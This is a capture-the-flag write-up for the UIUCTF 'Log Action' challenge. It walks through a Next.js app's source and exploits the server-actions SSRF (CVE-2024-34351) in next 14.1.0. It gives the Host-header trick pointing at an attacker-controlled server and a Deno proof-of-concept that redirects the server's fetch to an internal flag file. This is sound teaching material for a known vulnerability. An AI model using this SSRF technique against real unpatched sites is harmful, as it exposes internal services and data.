






# Log Action

## Description

> I keep trying to log in, but it's not working :'(

## Recon

The source code is available for download, so I first spun up a local instance of the challenge with `docker-compose up`.

The homepage redirects to a login form. The password must be at least 10 characters long, but the validation is client-side, so you can send whatever you like with burp. Still, common credentials like `admin:admin` are rejected with a "something went wrong" error.



It looks like we've got a Next.js application, but rather than digging through the obfuscated JS in the browser, best to review the source code 🔎

## Source Code

The `backend` simply holds a `flag.txt` file - does a vulnerability class pop into your mind already? 👀

The `frontend` has quite a bit of code, so I'll highlight some significant parts. First is the `auth.ts`. Notice that the admin password is randomised for each login attempt 🧐



```ts
export const { auth, signIn, signOut } = NextAuth({
    ...authConfig,
    providers: [
        Credentials({
            async authorize(credentials) {
                const parsedCredentials = z
                    .object({ username: z.string(), password: z.string() })
                    .safeParse(credentials);

                if (parsedCredentials.success) {
                    const { username, password } = parsedCredentials.data;
                    // Using a one-time password is more secure
                    if (
                        username === "admin" &&
                        password === randomBytes(16).toString("hex")
                    ) {
                        return {
                            username: "admin",
                        } as User;
                    }
                }
                throw new CredentialsSignin();
            },
        }),
    ],
});
```



There's an `/admin` endpoint, although the `tsx` file does nothing other than display "You logged in as admin."

An `auth.config.ts` has some logic surrounding the admin authentication.



```ts
export const authConfig = {
    pages: {
        signIn: "/login",
    },
    secret: process.env.AUTH_SECRET,
    callbacks: {
        authorized({ auth, request: { nextUrl } }) {
            const isLoggedIn = !!auth?.user;
            const isOnAdminPage = nextUrl.pathname.startsWith("/admin");
            if (isOnAdminPage) {
                if (isLoggedIn) return true;
                return false; // Redirect unauthenticated users to login page
            } else if (isLoggedIn) {
                return Response.redirect(new URL("/admin", nextUrl));
            }
            return true;
        },
    },
    providers: [],
} satisfies NextAuthConfig;
```



Finally, `actions.ts` contains some more code relating to the authentication.



```ts
export async function authenticate(
    prevState: string | undefined,
    formData: FormData
) {
    let foundError = false;
    try {
        await signIn("credentials", formData);
    } catch (error) {
        if (error instanceof AuthError) {
            foundError = true;
            switch (error.type) {
                case "CredentialsSignin":
                    return "Invalid credentials.";
                default:
                    return "Something went wrong.";
            }
        }
        throw error;
    } finally {
        if (!foundError) {
            redirect("/admin");
        }
    }
}
```



At this stage, nothing stands out to me as a potential vulnerability. The next step is to check `package.json` and see if there are any vulnerable dependencies.



```json
"dependencies": {
    "bcrypt": "^5.1.1",
    "next": "14.1.0",
    "next-auth": "^5.0.0-beta.19",
    "react": "^18.3.1",
    "react-dom": "^18.3.1",
    "zod": "^3.23.8"
  }
```



Can you guess which one I'm going to look into? That's right, the only one with a fixed version; `next`. All the other libraries are set to use the latest available version, so if one of those had a vulnerability that the challenge authors intended to include, the challenge would break as soon as it's patched.

## Solution

I proceeded to Google `next 14.1.0 exploit`, and one of the [first results is from Snyk](https://security.snyk.io/package/npm/next/14.1.0), highlighting an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability (`CVE-2024-34351`) that is present in `next` versions `<14.1.1`.

So, the SSRF is [patched](https://github.com/vercel/next.js/security/advisories/GHSA-fr5h-rqp8-mj6g) in the very next release after this one - what a coincidence 😆 Maybe this is the vulnerability class you were thinking about earlier?

### SSRF

Assetnote discovered the vulnerability, and they released an excellent [blog post](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps) detailing the discovery (including PoC), which I _highly_ recommend reading in its entirety.

The first part covers an SSRF vuln in the `_next/image` component, which is interesting but irrelevant to this challenge. However, the second section focuses on "SSRF in Server Actions" - remember we saw an `actions.ts` file? 💡

I won't cover `server actions` or dive into the affected code (read the blog!!). Instead, I'll try to stick to the practical steps (TLDR).

-   If a server action responds with a redirect starting with `/` (e.g., a redirect to `/login`), the server will fetch the result of the redirect **server side** and return it to the client.
-   However, the Host header is taken from the client.
-   Therefore, if we set a host header to an internal host, NextJS will fetch the response from that host instead of the app itself (SSRF).

I checked through the source code again, looking for valid redirects:

1. `redirect("/admin")` in `actions.ts` and `auth.config.js`, but it's only triggered after a successful login.
2. `redirect("/login")` in `page.tsx` (logout), which looks promising!



```ts
action={async () => {
	  "use server";
	  await signOut({ redirect: false });
	  redirect("/login");
}}
```



Fortunately, we don't need to be logged in to access the `/logout` endpoint 🙏



Therefore, we can intercept the request and insert our `ATTACKER_SERVER` domain as the `Host` and `Origin` header values. Note that the URL doesn't matter since the `Next-Action` header value is used to identify the action.



The `ATTACKER_SERVER` gets a hit ✅



We need to exfiltrate data, so let's follow the remainder of the blog post:

-   Set up a server that takes requests on any path.
-   On any HEAD request, return a 200 with Content-Type: `text/x-component`.
-   On a GET request, return a 302 to our intended SSRF target.
-   When NextJS fetches from our server, it will satisfy the preflight check on our HEAD request but will follow the redirect on GET, giving us a full read SSRF!

Putting it all together, we modify the supplied PoC.



```ts
Deno.serve((request: Request) => {
    console.log(
        "Request received: " +
            JSON.stringify({
                url: request.url,
                method: request.method,
                headers: Array.from(request.headers.entries()),
            })
    );
    // Head - 'Content-Type', 'text/x-component');
    if (request.method === "HEAD") {
        return new Response(null, {
            headers: {
                "Content-Type": "text/x-component",
            },
        });
    }
    // Get - redirect to flag
    if (request.method === "GET") {
        return new Response(null, {
            status: 302,
            headers: {
                Location: "http://backend/flag.txt",
            },
        });
    }
});
```



So, we will respond to the initial `HEAD` request with a `200 OK` of content-type `text/x-component`, which triggers a `GET` request to our server. At this point, we issue a `302` redirect to the flag.txt file on the `backend`.

That's it - let's serve the PoC using `deno`.



```bash
deno run --allow-net --allow-read main.ts
Listening on http://localhost:8000/
```



Reissue the request in burp and ensure the requests line up as expected in our server log.



They do, and we receive the fake flag 😊



All that's left is to repeat the exploit against the remote server and receive the _real_ flag 😏

Flag: `uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`
